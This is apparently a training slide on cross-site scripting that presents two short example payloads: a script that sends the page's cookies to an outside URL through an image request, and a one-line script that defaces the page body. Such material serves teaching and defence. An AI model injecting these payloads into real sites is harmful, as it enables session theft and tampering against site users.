

Anatomy of a XSS attack
Attack 1 : cookie theft
<script>
var badURL='https://owasp.org/somesite/data=' + document.cookie;
var img = new Image();
img.src = badURL;
</script>
Attack 2 : Web site defacement
<script>document.body.innerHTML='<blink>GO OWASP</blink>';</script>